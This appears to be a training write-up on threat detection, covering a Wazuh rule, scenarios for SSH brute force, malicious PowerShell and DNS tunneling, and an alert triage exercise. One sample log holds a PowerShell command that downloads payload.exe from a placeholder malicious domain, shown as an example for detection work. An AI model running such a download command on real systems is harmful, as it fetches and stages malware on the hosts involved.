




# Threat Detection Principles

## 1. Detection Rule Mechanisms

Detection rules are logical conditions in a SIEM/EDR used to detect suspicious or malicious activity. They can be signature-based, anomaly-based, or behavior-based.

Example Wazuh Rule (Multiple failed SSH logins):
```json
{
  "rule": {
    "id": "100200",
    "description": "Multiple failed SSH logins from same IP",
    "level": 10,
    "if_matched_sid": [5710],
    "frequency": 5,
    "timeframe": 300
  }
}
```

---

## 2. Detection Scenarios

### Scenario 1 – Brute Force SSH Attack
- **Log Source:** Linux auth.log
- **Event Pattern:** Multiple failed logins from same IP within 5 minutes.
- **Example Log:**
```
Aug 12 14:21:33 server sshd[1543]: Failed password for root from 203.0.113.45 port 44567 ssh2
Aug 12 14:21:35 server sshd[1543]: Failed password for root from 203.0.113.45 port 44567 ssh2
```
- **Detection Logic:** ≥5 failed logins from same IP in ≤300s → Alert & block IP.

**Screenshot:**  



---

### Scenario 2 – Malicious PowerShell Command Execution
- **Log Source:** Sysmon Event ID 4104
- **Example Log:**
```
EventID: 4104
ScriptBlockText: Invoke-WebRequest -Uri http://malicious-domain.biz/payload.exe -OutFile C:\temp\payload.exe
```
- **Detection Logic:** PowerShell + suspicious domain → Alert, isolate host.

**Screenshot:**  



---

### Scenario 3 – Data Exfiltration via DNS Tunneling
- **Log Source:** DNS logs
- **Example Log:**
```
Aug 12 16:42:21 dns-server named[2023]: client 192.168.10.25#50432: query (cache) TXT xyz.maliciousdomain.com IN
```
- **Detection Logic:** ≥50 TXT queries in 10 mins → Alert & block domain.

**Screenshot:**  



---

## 3. Threat Indicator Categories

| Category | Example | Application |
|----------|---------|-------------|
| IP Addresses | 203.0.113.45 | Block malicious C2 |
| Domains | maliciousdomain.biz | Phishing detection |
| File Hashes | d41d8cd98f00b204e9800998ecf8427e | Malware detection |
| Processes | powershell.exe | Credential dumping |
| Behavior Patterns | Multiple failed logins | Brute force detection |

---

## 4. Structured Threat Analysis Methodology

1. Event Collection  
2. Normalization  
3. Enrichment  
4. Correlation  
5. Prioritization  
6. Investigation  
7. Response  
8. Lessons Learned  

---

## 5. Alert Investigation Exercise

**Scenario:** Multiple failed RDP login attempts detected.

**Steps:**
1. **Review Alert** – 15 failed RDP logins from IP `198.51.100.23`.  
2. **Gather Data** – Correlate with firewall logs.  
3. **Validate** – No successful login; account lockout engaged.  
4. **Respond** – Block IP; check host for anomalies.  
5. **Outcome** – Classified as Failed Brute Force; IP added to blocklist.  

**Screenshot:**  

